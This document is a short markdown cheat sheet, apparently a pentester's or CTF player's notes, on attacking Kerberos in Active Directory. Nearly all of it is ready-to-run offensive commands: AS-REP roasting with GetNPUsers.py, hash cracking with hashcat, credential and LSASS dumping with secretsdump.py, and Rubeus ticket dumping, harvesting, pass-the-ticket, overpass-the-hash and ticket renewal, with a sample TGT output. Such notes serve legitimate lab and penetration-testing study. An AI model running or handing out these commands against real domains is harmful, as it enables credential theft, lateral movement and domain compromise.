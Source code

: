 Port 88

## Have list of users 
#### identify accounts that do not require Kerberos pre-authentication:
```
GetNPUsers.py -dc-ip 10.129.175.196 -request -usersfile users.txt htb.local/
```
crack hashes:
```
hashcat -m 18200 <hashes-file> /path/to/wordlist
```

---
## Have creds or foothold
#### Dump creds, including NTLM hashes, kerberos tickets, passwords:
```
secretsdump.py corp.local/admin:password@192.168.1.100
```
- requires admin
#### Obtained LSASS dump file and want to extract creds from it:
```
python secretsdump.py -lsass <LSASS-Dump-File>
```

### Rubeus
#### Extract Kerberos tickets (TGT/TGS) for lateral movement
transfer rubeus.exe to windows and run:
```
Rubeus.exe dump
```

#### Extract kerberos/lsass info (similar to dump but more info):
```
Rubeus.exe harvest
```
- requires admin
#### Extracted Kerberos ticket and want to use it to access resources without password (pass-the-ticket):
```
Rubeus.exe ptt /ticket:<base64-ticket>
```

#### Have NTLM hash of user's pw and want to obtain kerberos ticket using the hash:
```
Rubeus.exe asktgt /user:<username> /rc4:<ntlm-hash> /domain:<domain> /dc:<domain-controller>
```
ex:
```
Rubeus.exe asktgt /user:jdoe /rc4:ab1234567890abcdef1234567890abcdef /domain:corp.local /dc:192.168.1.100
```

#### if rubeus dump shows a TGT with a renewable flag set, output example:
  [TGT]  ServiceName              :  krbtgt/EXAMPLE.COM
         PrincipalName            :  user@EXAMPLE.COM
         Realm                    :  EXAMPLE.COM
         StartTime                :  2/24/2024 1:22:40 AM
         EndTime                  :  2/24/2024 11:22:40 AM
         ==RenewTill==                :  3/2/2024 1:22:40 AM
         Flags                    :  ==renewable==, pre_authent
         SessionKeyType           :  aes256_cts_hmac_sha1
         Base64(ticket)           :  YIIEjAYGKwYBB...

can renew the ticket with:
```
Rubeus.exe renew /ticket:YIIEjAYGKwYBB...
```

can pass the ticket with:
```
Rubeus.exe ptt /ticket:YIIEjAYGKwYBB...
```




